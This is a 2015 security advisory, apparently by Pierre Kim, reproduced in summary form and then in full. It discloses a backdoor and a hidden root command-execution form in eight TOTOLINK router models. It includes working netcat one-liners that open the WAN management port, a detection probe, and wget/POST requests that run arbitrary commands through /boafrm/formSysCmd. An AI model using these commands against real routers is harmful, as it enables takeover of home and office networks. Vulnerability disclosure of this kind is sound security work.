


TOTOLINK is a brother brand of ipTime which wins over 80% of SOHO markets in South Korea. TOTOLINK produces routers routers, wifi access points and network devices. Their products are sold worldwide.
A backdoor is present in several TOTOLINK products. This was confirmed by analyzing the latest firmwares and by testing the backdoor against live routers.
At least 8 TOTOLINK products are affected (firmwares come from totolink.net and from totolink.cn):
By sending a crafted request to the WAN IP, an attacker will open the HTTP remote management interface on the Internet. Then an attacker can use a Remote Code Execution in the HTTP remote management interface by using the hidden /boafrm/formSysCmd form, bypassing the authentication system.
We estimate there are =~ 50 000 routers affected by this backdoor.
The init.d script executes the /bin/skt binary when the router starts:
cat etc/init.d/rcS
[...]
# start web server
boa
skt&
skt is a small MIPS binary which is a client/server program. The arguments are:
server: ./skt
client: ./skt host cmd
The binary can be used in x86_64 machines using QEMU: sudo chroot . ./qemu-mips-static ./bin/skt
Using skt without argument will launch a TCP daemon on port 5555 in every interface (including WAN), acting as an ECHO server. Using skt with arguments will send a TCP packet containing the command to the specified IP on port 5555.
There are 2 main functions in skt:
TcpClient:
it will send a TCP packet containing hel,xasf, oki,xasf or bye,xasf, depending the arguments used (1,2,3), to a remote IP on port 5555.
TcpServer:
TcpServer is a echo server listening on port 5555/tcp and it compares strings provided by the user with hardcoded strings ("hel,xasf", "oki,xasf").
The problem is in the sub_400B50 function:

Pseudo-code of sub_400B50:
int32_t sub_400B50(int32_t a1, char *str, int32_t a3, int32_t a4, int32_t a5) {
if (strcmp(str, "hel,xasf") == 0) {
system("iptables -I INPUT -p tcp --dport 80 -i eth1 -j ACCEPT");
} else {
if (strcmp(str, "oki,xasf") == 0) {
system("iptables -D INPUT -p tcp --dport 80 -i eth1 -j ACCEPT");
}
}
[...]
}
This function compares str, which is an user-given string, and 2 hardcoded strings to execute system().
The analysis of the binary running on the TOTOLINK devices shows the server mode responds to 3 commands by silently executing system() in the background:
By sending "hel,xasf" to the device, the device will execute:
iptables -I INPUT -p tcp --dport 80 -i eth1 -j ACCEPT
This will open the HTTP remote management interface on port 80 in the eth1 interface which is the WAN interface by default.
By sending "oki,xasf" to the device, the device will execute:
iptables -D INPUT -p tcp --dport 80 -i eth1 -j ACCEPT
This will close the HTTP remote management interface.
By sending "bye,xasf" (hardcoded string in the binary) to the device, the device will do nothing
The iptables commands in the backdoor are hardcoded with "eth1". Only devices using DHCP and static IP connections are affected because the WAN IP is attached on the eth1 device.
It does not affect devices using PPPoE connections, because the WAN IP is attached on the ppp device, as seen below:
totolink# ifconfig
ppp0 Link encap:Point-to-Point Protocol
inet addr:X.X.X.X P-t-P:X.X.X.X Mask:255.255.255.255
UP POINTOPOINT RUNNING NOARP MULTICAST MTU:1438 Metric:1
RX packets:17308398 errors:0 dropped:0 overruns:0 frame:0
TX packets:2605290 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:64
RX bytes:2803138455 (2.6 GiB) TX bytes:277402492 (264.5 MiB)
An attacker can use these simple netcat commands to test the backdoor:
To open the HTTP remote management interface on the Internet:
echo -ne "hel,xasf" | nc <ip> 5555
To close the HTTP remote management interface on the Internet:
echo -ne "oki,xasf" | nc <ip> 5555
To detect a vulnerable router:
echo -ne "GET / HTTP/1.1" | nc <ip> 5555
if you see "GET / HTTP/1.1" in the answer, you likely detected a vulnerable router.
HTTP remote management interface open with the backdoor:

A hidden form in the latest firmware allows an attacker to execute commands as root by sending a HTTP request:
POST /boafrm/formSysCmd HTTP/1.1
sysCmd=<cmd>&apply=Apply&msg=
An attacker can use wget to execute commands in the remote device:
wget --post-data='sysCmd=<cmd>&apply=Apply&msg=' http://ip//boafrm/formSysCmd
For instance, sending this HTTP request to the management interface will reboot the device:
POST /boafrm/formSysCmd HTTP/1.1
sysCmd=reboot&apply=Apply&msg=
This wget command will do the same job:
wget --post-data='sysCmd=reboot&apply=Apply&msg=' http://ip//boafrm/formSysCmd
TOTOLINK was not contacted in regard of this case.
These vulnerabilities were found by Alexandre Torres and Pierre Kim (@PierreKimSec).
https://pierrekim.github.io/advisories/2015-totolink-0x02.txt
This advisory is licensed under a Creative Commons Attribution Non-Commercial Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
Complete advisory:
-----BEGIN PGP SIGNED MESSAGE-----
Hash: SHA512
## Advisory Information
Title: Backdoor and RCE found in 8 TOTOLINK router models
Advisory URL: https://pierrekim.github.io/advisories/2015-totolink-0x02.txt
Blog URL: https://pierrekim.github.io/blog/2015-07-16-backdoor-and-RCE-found-in-8-TOTOLINK-products.html
Date published: 2015-07-16
Vendors contacted: None
Release mode: 0days, Released
CVE: no current CVE
## Product Description
TOTOLINK is a brother brand of ipTime which wins over 80% of SOHO markets in South Korea.
TOTOLINK produces routers routers, wifi access points and network devices. Their products are sold worldwide.
## Vulnerabilities Summary
A backdoor is present in several TOTOLINK products.
This was confirmed by analyzing the latest firmwares and by testing the backdoor against live routers.
At least 8 TOTOLINK products are affected (firmwares come from totolink.net and from totolink.cn):
- A850R-V1 : until last firwmware TOTOLINK-A850R-V1.0.1-B20150707.1612.web
- F1-V2 : until last firmware F1-V2.1.1-B20150708.1646.web
- F2-V1 : until last firmware F2-V2.1.0-B20150320.1611.web
- N150RT-V2 : until last firmware TOTOLINK-N150RT-V2.1.1-B20150708.1548.web
- N151RT-V2 : until last firmware TOTOLINK-N151RT-V2.1.1-B20150708.1559.web
- N300RH-V2 : until last firmware TOTOLINK-N300RH-V2.0.1-B20150708.1625.web
- N300RH-V3 : until last firmware TOTOLINK-N300RH-V3.0.0-B20150331.0858.web
- N300RT-V2 : until last firmware TOTOLINK-N300RT-V2.1.1-B20150708.1613.web
By sending a crafted request to the WAN IP, an attacker will open the HTTP remote management interface on the Internet.
Then an attacker can use a Remote Code Execution in the HTTP remote management interface by using the hidden /boafrm/formSysCmd form, bypassing the authentication system.
We estimate there are =~ 50 000 routers affected by this backdoor.
## Details - backdoor
The init.d script executes the /bin/skt binary when the router starts:
cat etc/init.d/rcS
[...]
# start web server
boa
skt&
skt is a small MIPS binary which is a client/server program. The arguments are:
server: ./skt
client: ./skt host cmd
The binary can be used in x86_64 machines using QEMU: sudo chroot . ./qemu-mips-static ./bin/skt
Using skt without argument will launch a TCP daemon on port 5555 in every interface (including WAN), acting as an ECHO server.
Using skt with arguments will send a TCP packet containing the command to the specified IP on port 5555.
The analysis of the binary running on the TOTOLINK devices (for more details, read
https://pierrekim.github.io/blog/2015-07-XX-backdoor-in-TOTOLINK-products.html ) shows the server mode responds to 3 commands by silently executing
system() in the background:
o By sending "hel,xasf" to the device, the device will execute: iptables -I INPUT -p tcp --dport 80 -i eth1 -j ACCEPT
This will open the HTTP remote management interface on port 80 in the eth1 interface which is the WAN interface by default.
o By sending "oki,xasf" to the device, the device will execute: iptables -D INPUT -p tcp --dport 80 -i eth1 -j ACCEPT
This will close the HTTP remote management interface.
o By sending "bye,xasf" to the device, the device will do nothing
The iptables commands in the backdoor are hardcoded with "eth1".
Only devices using DHCP and static IP connections are affected because the WAN IP is attached on the eth1 device.
It does not affect devices using PPPoE connections, because the WAN IP is attached on the ppp device, as seen below:
totolink# ifconfig
ppp0 Link encap:Point-to-Point Protocol
inet addr:X.X.X.X P-t-P:X.X.X.X Mask:255.255.255.255
UP POINTOPOINT RUNNING NOARP MULTICAST MTU:1438 Metric:1
RX packets:17308398 errors:0 dropped:0 overruns:0 frame:0
TX packets:2605290 errors:0 dropped:0 overruns:0 carrier:0
collisions:0 txqueuelen:64
RX bytes:2803138455 (2.6 GiB) TX bytes:277402492 (264.5 MiB)
An attacker can use these simple netcat commands to test the backdoor:
To open the HTTP remote management interface on the Internet:
echo -ne "hel,xasf" | nc <ip> 5555
To close the HTTP remote management interface on the Internet:
echo -ne "oki,xasf" | nc <ip> 5555
To detect a vulnerable router:
echo -ne "GET / HTTP/1.1" | nc <ip> 5555
if you see "GET / HTTP/1.1" in the answer, you likely detected a vulnerable router.
## Details - RCE in the management interface
A hidden form in the latest firmware allows an attacker to execute commands as root by sending a HTTP request:
POST /boafrm/formSysCmd HTTP/1.1
sysCmd=<cmd>&apply=Apply&msg=
An attacker can use wget to execute commands in the remote device:
wget --post-data='sysCmd=<cmd>&apply=Apply&msg=' http://ip//boafrm/formSysCmd
For instance, sending this HTTP request to the management interface will reboot the device:
POST /boafrm/formSysCmd HTTP/1.1
sysCmd=reboot&apply=Apply&msg=
This wget command will do the same job:
wget --post-data='sysCmd=reboot&apply=Apply&msg=' http://ip//boafrm/formSysCmd
## Vendor Response
TOTOLINK was not contacted in regard of this case.
## Report Timeline
* Jun 25, 2015: Backdoor found by analysing TOTOLINK firmwares.
* Jun 26, 2015: Working PoCs with RCE.
* Jul 13, 2015: Updated firmwares confirmed vulnerable.
* Jul 16, 2015: A public advisory is sent to security mailing lists.
## Credit
These vulnerabilities were found by Alexandre Torres and Pierre Kim (@PierreKimSec).
## References
https://pierrekim.github.io/advisories/2015-totolink-0x02.txt
https://pierrekim.github.io/blog/2015-07-16-backdoor-and-RCE-found-in-8-TOTOLINK-products.html
## Disclaimer
This advisory is licensed under a Creative Commons Attribution Non-Commercial
Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
-----BEGIN PGP SIGNATURE-----
Version: GnuPG v1
iQIcBAEBCgAGBQJVpqryAAoJEMQ+Dtp9ky28lLgP/3MnpOdYlY+XBKD28uzgYBrp
sIYYIIqo0qhLvG4W9eP0xdq7sMjtdhdiJodCPqpubdmIYba5JCFXVrAQUjJXkinN
vGXpiyrf36/4QUVyrh7yuc01u+5nw7cnkMg3dNkKeue+XurJuRiFIRrebksehd9r
Be+muhjJ1bJXhLNGZQk5mhM626SSHOl+0zR5AFv37h5jsBhspscVldLJDGAdTBDG
uLnofLq8PsN4UB95d7GTjw2A88quEwa7frd4FSzCOFjdCmwyVFgnPfSDV/0/3x+e
xPqcXERXHEAqYh9UYV8zBw1Oac4ddnXvbOrBcO41Hk2mXJVVL05eg/2YIrEqTTQj
GA4UkhwDiNPoZqxK/VvbvnULyqYzarmK5FfE8PjAdPb4NGkrMbAp6Y6auUxbADqO
O1uMrx/POJbRNMwfwpugL+NPW8ZWgMqmXE/5IE9XapDrIh2QKfHrPSFDaZ5FTBz1
zAUOFTxcgx24jWwosFBWa0kHNg+AbaH6e0Owgao3/SO8g6mz+N3wxO39uB+FCRCh
DIRJlQ1oxaGTRJDfatwM9E0pZpbdnharjESW9zAv2ZHucsbubsXy7Ihy7NiZZuzE
N0Dgg6B0yn4O4Wywfpw6Q10B6VdGL4QubUnBM+SGQ8Tt9ef4nnDg2yEjbIWLVXT5
TsR/TJPNRX8HvmWD3+oZ
=Kyqa
-----END PGP SIGNATURE-----
published on 2015-07-16 00:00:00 by Pierre Kim <pierre.kim.sec@gmail.com>